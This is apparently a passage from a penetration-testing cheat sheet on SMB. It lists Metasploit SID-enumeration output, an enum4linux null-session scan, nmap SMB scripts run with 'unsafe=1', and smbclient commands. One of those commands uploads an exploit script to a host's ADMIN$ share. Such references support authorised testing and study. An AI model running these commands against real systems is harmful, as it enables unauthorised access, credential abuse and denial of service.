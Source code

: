 ```
RHOSTS => 192.168.31.142
msf auxiliary(scanner/smb/smb_lookupsid) > run
[*] 192.168.31.142:139    - PIPE(LSARPC) LOCAL(MYGROUP - 5-21-4157223341-3243572438-1405127623) DOMAIN(MYGROUP - )
[*] 192.168.31.142:139    - TYPE=0 NAME=Administrator rid=500

```
#### NetBIOS NullSession enumeration

 ```
####  This  feature  exists  to  allow  unauthenticated  machines  to  obtain  browse  lists  from  other  
#### Microsoft   servers. Enum4linux is a wrapper  built on top of smbclient,rpcclient, net and nmblookup
enum4linux -a 192.168.1.1

```
#### upload file
```
smbclient //192.168.31.142/ADMIN$ -U "nobody"%"somepassword" -c "put 40280.py"
```

#### NMAP SMB scripts
```
nmap --script smb-* --script-args=unsafe=1 192.168.10.55
```

####  ls -lh /usr/share/nmap/scripts/smb*
```
smb-brute.nse
smb-enum-domains.nse
smb-enum-groups.nse
smb-enum-processes.nse
smb-enum-sessions.nse
smb-enum-shares.nse
smb-enum-users.nse
smb-flood.nse
smb-ls.nse
smb-mbenum.nse
smb-os-discovery.nse
smb-print-text.nse
smb-psexec.nse
smb-security-mode.nse
smb-server-stats.nse
smb-system-info.nse
smb-vuln-conficker.nse
smb-vuln-cve2009-3103.nse
smb-vuln-ms06-025.nse
smb-vuln-ms07-029.nse
smb-vuln-ms08-067.nse
smb-vuln-ms10-054.nse
smb-vuln-ms10-061.nse
smb-vuln-regsvc-dos.nse
smbv2-enabled.nse

```
#### mount SMB shares in Linux
```
smbclient -L \\WIN7\ -I 192.168.13.218
smbclient -L \\WIN7\ADMIN$  -I 192.168.13.218
smbclient -L \\WIN7\C$ -I 192.168.13.218
smbclient -L \\WIN7\IPC$ -I 192.168.13.218
smbclient \\192.168.13.236\some-share -o user=root,pass=root,workgroup=BOB
```
